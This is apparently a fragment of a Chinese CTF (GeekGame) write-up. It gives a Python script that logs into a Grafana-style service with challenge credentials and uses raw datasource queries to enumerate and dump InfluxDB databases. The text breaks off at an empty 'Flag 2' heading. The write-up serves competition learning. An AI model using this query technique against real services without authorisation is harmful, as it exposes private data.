 ```json
]
```

然后查询这个 db

```python
import requests

USERNAME = 'geekgame'
PASSWORD = 'geekgame'
DATASOURCE = 'bf04aru9rasxsb'
BASE = '[redacted]'

session = requests.Session()

session.post(f'{BASE}/login', json={
    'user': USERNAME,
    'password': PASSWORD
})

def query(q):
    resp = session.post(f'{BASE}/api/ds/query', json={
        'queries': [{
            'refId': 'A',
            'datasource': {
                'uid': DATASOURCE
            },
            'rawQuery': True,
            'query': q,
        }]
    })
    return resp.json()['results']['A']['frames']


print(query("SHOW DATABASES"))
db = input("Select database: ")
print(query(f"SHOW MEASUREMENTS ON {db}"))
measurement = input("Select measurement: ")
print(query(f"SELECT * FROM {db}..{measurement}"))
```

~~这文档真乱啊~~

~~rawQuery 文档里面也没有还是问 deepseek 问出来的~~

#### Flag 2 -
